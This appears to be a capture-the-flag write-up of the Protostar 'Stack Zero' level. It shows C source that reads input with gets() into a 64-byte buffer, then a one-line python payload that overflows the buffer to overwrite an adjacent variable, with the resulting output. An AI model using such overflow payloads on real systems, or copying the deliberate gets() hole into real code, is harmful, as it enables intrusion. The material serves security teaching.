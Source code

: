# Stack Zero

This level introduces the concept that memory can be accessed outside of its allocated region, how the stack variables are laid out, and that modifying outside of the allocated memory can modify program execution.

This level is at /opt/protostar/bin/stack0

## Source Code

```c++
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```

## Writeup

In this code we have a **buffer** of 64 char, that means is a **buffer** of 64 byte.

After this, in the Stack we have the **modified** variable of 4 byte.

We can write 64 char and add at the end the 4 byte of **modified** value.

Let's write an '**A**' 64 times and than add a 1 in the **modified** variable.

```bash
python -c "print('A' * 64 + '\x01')" | /opt/protostar/bin/stack0
```

The output of the program will be:

```bash
user@protostar:/opt/protostar/bin$ python -c "print('A' * 64 + '\x01')" | /opt/protostar/bin/stack0
you have changed the 'modified' variable
```

We know that the **modified** variable have 1 as value.